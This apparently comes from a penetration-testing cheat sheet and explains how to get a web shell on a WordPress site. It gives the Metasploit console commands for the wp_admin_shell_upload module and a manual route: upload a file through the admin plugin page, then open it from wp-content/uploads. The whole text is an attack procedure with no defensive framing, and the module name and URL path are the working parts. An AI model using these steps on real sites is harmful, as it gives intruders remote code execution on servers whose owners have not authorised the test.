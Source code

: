 # WordPress Admin Shell Upload

Abuse the plugin function to upload a shell.

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > show targets
    ...targets...
msf exploit(wp_admin_shell_upload) > set TARGET < target-id >
msf exploit(wp_admin_shell_upload) > show options
    ...show and set options...
msf exploit(wp_admin_shell_upload) > exploit
```

or simply login, go the plugins, upload a file and go the the WP upload folder (wp-content/uploads)